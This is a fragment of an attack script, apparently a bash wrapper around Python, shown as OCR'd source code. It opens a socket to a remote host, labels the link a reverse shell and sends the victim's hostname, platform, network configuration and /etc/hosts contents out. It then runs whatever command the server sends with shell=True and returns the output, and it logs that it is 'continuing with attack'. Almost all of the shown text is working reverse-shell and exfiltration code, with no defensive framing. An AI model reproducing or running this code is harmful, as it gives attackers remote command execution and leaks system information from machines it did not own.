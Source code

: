 ```bash
    s.settimeout(3)
    
    # Connect and send comprehensive info about the connection
    print(f"Attempting socket connection to {host}:{port}...")
    s.connect((host, port))
    
    # Send a comprehensive packet of information
    conn_info = f"""
REVERSE SHELL CONNECTION ESTABLISHED
------------------------------------
Time: {time.ctime()}
Host: {socket.gethostname()}
Platform: {platform.platform()}
Python: {platform.python_version()}
------------------------------------
"""
    s.send(conn_info.encode())
    
    # Get IP information and network config
    try:
        ip_output = subprocess.check_output("ip addr", shell=True).decode("utf-8")
        s.send(f"IP CONFIG:\n{ip_output[:500]}...\n".encode())
        
        # Also try to send hostname resolution info
        host_output = subprocess.check_output("cat /etc/hosts", shell=True).decode("utf-8")
        s.send(f"HOSTS FILE:\n{host_output}\n".encode())
    except:
        s.send(b"Could not retrieve network info\n")
    
    # Attempt to receive command from server (success if we get here)
    try:
        s.settimeout(2)  # Short timeout for demo
        data = s.recv(1024)
        print("Received from server:", data.decode("utf-8", errors="ignore"))
        
        # If we receive a command, try to execute it and return results
        if data:
            try:
                cmd_output = subprocess.check_output(data.decode("utf-8", errors="ignore"), 
                                                    shell=True, stderr=subprocess.STDOUT)
                s.send(f"Command output:\n{cmd_output.decode()}\n".encode())
            except Exception as cmd_err:
                s.send(f"Command error: {str(cmd_err)}\n".encode())
    except socket.timeout:
        print("No command received, but connection was established")
    except Exception as recv_err:
        print(f"Error receiving data: {recv_err}")
    
    # Report successful connection regardless
    print(f"Python socket connection SUCCESSFUL to {host}:{port}")
    sys.stdout.flush()
    s.close()
except Exception as e:
    print(f"Connection error: {e}")
'
) || log "$YELLOW" "Python socket connection failed but continuing with attack"
```
